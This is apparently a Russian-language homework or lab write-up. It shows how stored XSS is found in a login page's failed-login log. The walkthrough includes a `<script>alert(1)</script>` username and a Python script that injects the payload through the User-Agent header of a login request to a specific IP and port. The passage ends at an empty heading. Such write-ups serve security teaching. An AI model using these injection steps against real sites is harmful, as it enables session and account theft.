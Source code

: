 # Forbidden_Code_HW

При входе на сайт видим форму для входа/регистрации

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312215659.png?raw=true)

При изучении страницы HTML находим подсказку о POST-запросе

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220201.png?raw=true)

В личном кабинете можно найти логи неудачных попыток входа. После неудачной попытки входа получаем такую картину

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220022.png?raw=true)

Регистрируем пользователя с именем `<script>alert(1)</script>` для проверки XSS payload. Получаем:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220615.png?raw=true)

>XSS, или межсайтовый скриптинг, — это тип атаки на веб-приложения, при котором злоумышленник может внедрять в содержимое веб-страницы вредоносный скрипт, который будет выполняться на стороне клиента. Это может привести к краже данных, сессий или даже полному контролю над учетной записью жертвы. Рассмотрим возможные пути кражи аккаунта через XSS и методологию предотвращения таких атак.

## Подготовка атаки
Изменить логин admin на payload нельзя. На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent можем. Напишем скрипт на python для этого:

```python
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
```
Проверка скрипта прошла успешно:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312231514.png?raw=true)

## Проработка атаки


